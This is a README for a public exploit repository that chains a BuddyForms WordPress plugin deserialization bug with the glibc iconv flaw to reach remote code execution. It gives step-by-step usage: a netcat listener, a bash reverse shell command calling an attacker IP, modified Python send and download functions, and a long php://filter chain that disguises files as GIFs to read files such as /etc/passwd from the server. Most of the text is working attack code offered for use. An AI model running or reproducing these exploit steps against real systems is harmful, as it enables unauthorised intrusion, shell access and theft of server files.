



# Exploit BuddyForms (CVE-2023-26326) using Iconv (CVE-2024-2961)

> This work was done by me, [Omar Elshopky](https://github.com/omarelshopky), and [Nour El Dien Bassiouny](https://github.com/0xbassiouny1337).

This repository contains an exploit for the WordPress BuddyForms Plugin (CVE-2023-26326), initially reported in the [advisory](https://medium.com/tenable-techblog/wordpress-buddyforms-plugin-unauthenticated-insecure-deserialization-cve-2023-26326-3becb5575ed8) by [Joshua Martinelle](https://medium.com/@jmartinelle). The exploit leverages a technique proposed in the [Iconv, set the charset to RCE: Exploiting the glibc to hack the PHP engine](https://www.ambionics.io/blog/iconv-cve-2024-2961-p1) blog, and was implemented by @ambionics in the [cnext-exploits](https://github.com/ambionics/cnext-exploits) repository.

Originally, [CVE-2023–26326](https://medium.com/tenable-techblog/wordpress-buddyforms-plugin-unauthenticated-insecure-deserialization-cve-2023-26326-3becb5575ed8) required gadget chains to exploit it as a deserialization vulnerability. This method is no longer feasible on newer WordPress sites running on PHP 8+; however, by chaining with CVE-2024-2961](https://www.ambionics.io/blog/iconv-cve-2024-2961-p1), the exploit becomes possible through `php://filter` instead of `phar://`.

The exploit was created by modifying the [cnext-exploit.py](https://github.com/ambionics/cnext-exploits/blob/main/cnext-exploit.py) script, incorporating the necessary changes for CVE-2023-26326, as detailed in the [Changes Description](#changes-description).

## Usage

1. Clone the repository and set up the virtual environment:

```bash
git clone https://github.com/omarelshopky/exploit_cve-2023-26326_using_cve-2024-2961.git
cd exploit_cve-2023–26326_using_cve-2024-2961
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

2. In another terminal, start a netcat listener on port `<ATTACKER_PORT>` to catch the reverse shell:

```bash
nc -lvnp <ATTACKER_PORT>
```

3. Execute the exploit against a WordPress target running PHP 8.3.x with BuddyForms plugin version < 2.7.8:
```bash
python exploit.py "<TARGET_URL>/wp-admin/admin-ajax.php" 'bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/<ATTACKER_PORT> 0>&1"'
```






## Changes Description

The core idea behind the CVE-2024-2961 exploit was retained, but modifications were needed to adapt it to send the filters chain to the website and download files from the server.

### Sending Filters Chain

In the original exploit, the send function is used to send a path to the server:

```python
def send(self, path: str) -> Response:
    return self.session.post(self.url, data={"file": path})
```

For WordPress with BuddyForms, the interaction occurs by default via a POST request to `/wp-admin/admin-ajax.php`, where the body data contains `action=upload_image_from_url&url=<INJECT_POINT>&id=1&accepted_files=image/gif`. The URL parameter serves as the injection point for sending filters chain to the server. This resulted in the following modification to the send function:

```python
def send(self, path: str) -> Response:
    return self.session.post(self.url, data={
        "action" : "upload_image_from_url",
        "url" : urllib.parse.quote_plus(path),
        "id" : "1",
        "accepted_files" : "image/gif"
    })
```

### Downloading Files

The original exploit had a download function responsible for downloading files from the server. The following version of the download function is used in the original exploit:

```python
def download(self, path: str) -> bytes:
    path = f"php://filter/convert.base64-encode/resource={path}"
    response = self.send(path)
    data = response.re.search(b"File contents: (.*)", flags=re.S).group(1)
    return base64.decode(data)
```

To adapt this to BuddyForms, we analyze the `buddyforms_upload_image_from_url` function, which handles uploading images from a URL. It uses `file_get_contents`, checks the file type with `getimagesize()`, and then saves the content under the `wp-content/uploads` directory. This allows us to exploit `php://filter` to read local files and save them to the uploads directory, making them accessible via URL. However, we must bypass the file check by prepending `GIF89a` to the file content to simulate it as a GIF. This can be done using filter chaining, and the [wrapwrap](https://github.com/ambionics/wrapwrap) tool can generate the required chain:


```bash
git clone https://github.com/ambionics/wrapwrap.git
cd wrapwrap
./wrapwrap.py /etc/passwd 'GIF89a' '' 1000
```



This generated filter chain should replace the base64 encoding used in the original script. Additionally, the format for extracting the uploaded file path from the response needs to be updated to accommodate the JSON format, which includes the "response" attribute set to the file path.


```json
{"status":"OK","response":"http:\/\/victim.site\/wp-content\/uploads\/2025\/02\/1-106.png","attachment_id":261}
```

```json
{"status":"FAILED","response":"File type  is not allowed."}
```

Note that the prefix GIF89a should be removed before using the file content in the exploit, resulting in the following modified download function:

```python
def download(self, path: str) -> bytes:
    # Append prefix "GIF89a" to bypass file type check with getimagesize()
    path = f"php://filter/convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode/resource={path}"
    response_data = self.send(path).json()

    if response_data == "FAILED":
        print(f"[-] Unable to download files, error message: {response_data['response']}")
        exit(0)

    file_path = response_data["response"]

    # Remove the prefix "GIF89a"
    return self.session.get(file_path).content[6:]
```

### Downloading `libc.so.6`

Please note that downloading the `libc.so.6` file from the server may not work correctly with the filter chains, as the binary gets modified during the process. Instead, the correct file should be provided in the exploit's root directory.
